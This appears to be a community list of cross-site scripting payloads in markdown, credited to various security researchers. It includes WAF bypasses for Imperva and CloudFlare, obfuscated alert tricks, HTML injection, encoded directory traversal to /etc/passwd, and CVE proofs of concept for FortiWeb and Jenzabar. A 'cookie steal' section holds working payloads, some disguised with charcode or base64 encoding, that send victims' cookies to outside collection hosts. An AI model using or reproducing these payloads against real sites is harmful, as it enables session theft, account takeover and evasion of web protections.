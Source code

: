 # Xss payloads examples.

### Imperva WAF bypass payload

**author:** @0xInfection
```js
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```

### Ondblclick xss Payloads by alert(Y000!) 

**author:** https://twitter.com/_Y000_
```js
<h1 ondblclick=alert`_Y000!_`>_Y000!_</h1>

<marquee ondblclick=alert`_Y000!_`>_Y000!_</marquee>

<xss ondblclick="alert`_Y000!_`" autofocus tabindex=1>_Y000!_</xss>

<w="/x="y>"/ondblclick=`<`[confir\u006d`_Y000!_`]>z
```

### Alert Obfuscation

**author:** https://twitter.com/_Y000_
```js
t\u006fp[/al/.sourc\u0065+/ert/.sourc\u0065]``

//Top=t\u006fp
//source=sourc\u0065
```

### Xss payload 

**author:** https://twitter.com/_Y000_
```js
%3Cscript%3Efor((Y000)in(self))eval(Y000)(`${`_Y000!_`}`)%3C/script%3E
```

### A solid XSS payload that bypasses Imperva 

**author:** @0xInfection
```js
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```

### A cuneiform payload - blocked by CSP but shows the idea

**author:** @lutfumertceylan 
```js
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

### HTML injection

**author:** @renniepack
```js
<font color="red">ERROR 1064 (42000): You have an error in your SQL syntax;
```

### HTML injection to XSS 

**author:** @nav1n0x
```js
//Query
<h1>TEST</h1> 
//if HTML isn't filtered in the result, then try adding, 
<h1 class="xxx" onmouseover=alert(document.domain)>Shop Now</h1>
```

### Directory traversal bypass double URL encoding 

**author:** @ManasH4rsh
```js
/../../etc/passwd   —   Got nothing?

//Try this:

%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### Bug: XSS through file upload

**author:** @ManasH4rsh
```js
//Payload:
*/alert(1)</script><script>/ *

// XSS in Jenzabar (CVE-2021-26723)
POC:
/ics?tool=search&query="><script>alert('xss')</script>
```

### Xss payload
**author:** https://twitter.com/_Y000_
```js
<script>Object.defineProperties(window, {xss: {value: {x: function() {return document.cookie}}}});alert(xss.x())</script>
```

### 4 XSS in FortiWeb (CVE-2021-22122)

**author:** Andrey Medov  (have been patched). 
```js
/error3?msg=30&data=';alert('xss');//
/omni_success?cmdb_edit_path=");alert('xss');//
```

### When you find input field which allows " (quotes), try this payload:

```js
"autofocus onfocus=alert(1)// -> Doesn't work
"type%3d"text"autofocus%20onfocus%3d"alert(1)" -> Works
```

### Vue.js Javascript Library Client-Side Template Injection cc 

**author:** @ExWareLabs
```js 
//poc
hxxp://host/?name={{this.constructor.constructor('alert("foo")')()}}
```

### CloudFlare XSS Bypass 

**author:** JacksonHHax

```js
<svg onload=alert%26%230000000040"1")>

# xss filter and got this interesting payload 

%ff<!---><svg/onload=top[/al/.source+/ert/.source]&lpar;)>
```

### xss

**author:** @hunter0x7
```js
img{background-image:url('javascript:alert()')}
```

### HTML injection or a triager claims you cant execute Open-Redirect inside a web-page without javascript, Use this payload 

**author:** naglinagli
```js
><meta http-equiv="Refresh" content="0; url='test.github.io'" />
```

### xss usando location.assign

**author:** _Y000!_
```js
<svg onload=location.assign("javascript:alert`_Y000!_`");>
```

### XSS redteam, dirty security

**author:** spyerror
```js
?age=25;location=/javascript:alert%25281%2529/.source; :>
```

### XSS Cookie steal
```js
<script>document.write('<img src="https://httpreq.com/asd/ecord?cmd='+document.cookie+'"witdh=0 hight=0 border=0 />');</script>
<script>document.write('<img src="http://asdasd.ngrok.io?cmd='+document.cookie+'"witdh=0 hight=0 border=0 />');<script>
<keygen autofocus onfocus=alert(1)>
```

# xss cookie steal encode with charcode 
```js
<keygen autofocus onfocus=(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,115,58,47,47,104,116,116,112,114,101,113,46,99,111,109,47,111,100,100,45,108,101,97,102,45,121,100,101,49,102,117,55,112,47,114,101,99,111,114,100,63,99,109,100,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,39,34,119,105,116,100,104,61,48,32,104,105,103,104,116,61,48,32,98,111,114,100,101,114,61,48,32,47,62,39,41))>

<script>location=atob("aHR0cDovLzE5Mi4xNjguMS4zL3oucGhwP3k9").concat(document.cookie)</script>

<keygen autofocus onfocus=document.write(String.fromCharCode(39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,115,58,47,47,104,116,116,112,114,101,113,46,99,111,109,47,111,100,100,45,108,101,97,102,45,121,100,101,49,102,117,55,112,47,114,101,99,111,114,100,63,99,109,100,61,39)+document.cookie+String.fromCharCode(39,34,119,105,116,100,104,61,48,32,104,105,103,104,116,61,48,32,98,111,114,100,101,114,61,48,32,47,62,39))/>

<keygen autofocus onfocus=document.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,34,104,116,116,112,115,58,47,47,104,116,116,112,114,101,113,46,99,111,109,47,111,100,100,45,108,101,97,102,45,121,100,101,49,102,117,55,112,47,114,101,99,111,114,100,63,99,109,100,61)+document.cookie(String.fromCharCode(119,105,116,100,104,61,48,32,104,105,103,104,116,61,48,32,98,111,114,100,101,114,61,48,32,47,62)))/>

<keygen autofocus onfocus=a=document;a.write(
    String.fromCharCode(60,105,109,103,32,115,114,99,61,39,
    104,116,116,112,115,58,47,47,98,99,53,57,98,97,56,49,98,
    48,52,100,49,97,57,97,57,100,53,101,99,51,49,49,98,49,56,
    56,97,49,55,55,46,109,46,112,105,112,101,100,114,101,97,
    109,46,110,101,116,63,116,101,115,116,61).concat(a.cookie)
    .concat(String.fromCharCode(39,47,62))) />
     )/>

<keygen autofocus onfocus=<script>location=atob("aHR0cHM6Ly9odHRwcmVxLmNvbS9vZGQtbGVhZi15ZGUxZnU3cC9yZWNvcmQ/Y21kPQ==").concat(document.cookie)</script> />

<keygen autofocus onfocus=a=document;a.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,34,104,116,116,112,115,58,47,47,104,116,116,112,114,101,113,46,99,111,109,47,111,100,100,45,108,101,97,102,45,121,100,101,49,102,117,55,112,47,114,101,99,111,114,100,63,99,109,100,61).concat(a.cookie).concat(String.fromCharCode(34,47,62,10))) /> )/>

<keygen autofocus onfocus=a=document;a.write(String.fromCharCode(60,105,109,103,32,115,114,99,61,34,104,116,116,112,115,58,47,47,104,116,116,112,114,101,113,46,99,111,109,47,111,100,100,45,108,101,97,102,45,121,100,101,49,102,117,55,112,47,114,101,99,111,114,100,63,99,109,100,61).concat(a.cookie).concat(String.fromCharCode(34,47,62,10))) /> )/>

<keygen autofocus onfocus=write(atob(&quot;PHNjcmlwdD50b3AubG9jYXRpb249Jy8vc2VuZC5oZXJlLm1lPycrZG9jdW1lbnQuY29va2llPC9zY3JpcHQ+&quot;))>

title=cyberpunker&message=<button autofocus onfocus=write(atob(&quot;PHNjcmlwdD50b3AubG9jYXRpb249J2h0dHBzOi8vaHR0cHJlcS5jb20vb2RkLWxlYWYteWRlMWZ1N3AvcmVjb3JkP2NtZD0nK2RvY3VtZW50LmNvb2tpZTwvc2NyaXB0Pg==&quot;))>
```

### xxs
**author:** y000!

```js
//xss payloads

<a href=javas&#99;ript:alert(1)>

<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>

//From Reflected XSS to RCE
Payload: "><img src=x onerror=alert(whoami)>

```

